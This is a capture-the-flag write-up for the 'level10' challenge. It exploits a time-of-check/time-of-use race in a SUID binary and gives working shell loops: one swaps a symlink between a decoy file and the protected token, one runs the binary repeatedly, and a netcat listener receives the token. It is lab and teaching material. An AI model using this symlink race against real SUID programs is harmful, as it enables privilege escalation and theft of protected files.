




# Level10 – SUID TOCTOU Exploit
## Level Overview

**Category: Privilege Escalation / SUID Exploit**

Description:
The level10 binary is owned by flag10 and has the SUID bit set. It allows sending files to another host, but only if the user has “access” to the file. The goal is to retrieve the token file owned by flag10, which the current user (level10) cannot normally read.


## Observations
* The binary has SUID set → runs as flag10.

* The token is readable only by flag10.

* Running the binary normally:

```
./level10 token 127.0.0.1
You don't have access to token
```

Inspecting strings in the binary:

```
strings ./level10 | egrep -i "connect|access|open"
```



* This hinted that the binary:

    1.Performs an access check (access())
    2.Opens the file (open())
    3.Sends it over the network (connect())


## Identifying the Vulnerability
we'll test a file we own and check if we receive the text inide it 



the message does actually reach so we'll go over a solution that i found over at stack overflow which is utilizing the time between accessing the file and opening it for reading


```
Check (access)  →  Use (open/read) 
```

# Exploit Strategy

The idea behind this exploit is utilize the time between acessing the file and opening it for reading we already know that the file is allower to be read by flag10 we just need to create a symlink to a file we have access to and when it passed the access syscall then we switch it to point to the token file. we'll create an infinite loop to do exactly that 
```
#!/bin/bash

i=10
while [ i > 0 ]; do
	ln -sf /var/crash/fake_or /var/crash/fake
	ln -sf /home/user/level10/token /var/crash/fake
done
```

and we'll start a second infinite loop that runs the binary with the link

```
while true; do
    /home/user/level10/level10 /var/crash/fake 127.0.0.1
done
```

and we'll start a third infinite loop using netcat to receive the message
```
while true; do
    nc -l 6969
done
```



so as we can see the flag is captured just in the right time when it switches the link to point to the token




